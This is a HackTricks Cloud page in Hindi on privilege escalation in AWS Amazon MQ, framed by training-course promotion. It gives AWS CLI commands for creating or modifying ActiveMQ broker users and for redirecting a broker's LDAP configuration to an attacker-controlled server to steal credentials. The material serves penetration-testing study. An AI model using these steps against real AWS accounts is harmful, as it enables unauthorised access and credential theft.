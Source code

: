 # AWS - MQ Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

MQ के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

इन अनुमतियों के साथ आप **एक ActimeMQ ब्रोकर में एक नया उपयोगकर्ता बना सकते हैं** (यह RabbitMQ में काम नहीं करता है):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुँच

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

इन अनुमतियों के साथ आप **एक ActimeMQ ब्रोकर में एक नया उपयोगकर्ता बना सकते हैं** (यह RabbitMQ में काम नहीं करता):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुँच

### `mq:ListBrokers`, `mq:UpdateBroker`

यदि एक ब्रोकर **ActiveMQ** के साथ प्राधिकरण के लिए **LDAP** का उपयोग कर रहा है। तो **हमलावर द्वारा नियंत्रित** LDAP सर्वर की **कॉन्फ़िगरेशन** को **बदलना** संभव है। इस तरह हमलावर **LDAP के माध्यम से भेजे जा रहे सभी क्रेडेंशियल्स को चुराने** में सक्षम होगा।
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
यदि आप किसी तरह ActiveMQ द्वारा उपयोग किए गए मूल क्रेडेंशियल्स को खोज सकते हैं, तो आप एक MitM कर सकते हैं, क्रेड्स चुरा सकते हैं, उन्हें मूल सर्वर में उपयोग कर सकते हैं, और प्रतिक्रिया भेज सकते हैं (शायद बस चुराए गए क्रेडेंशियल्स का पुन: उपयोग करके आप यह कर सकते हैं)।

**संभावित प्रभाव:** ActiveMQ क्रेडेंशियल्स चुराना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
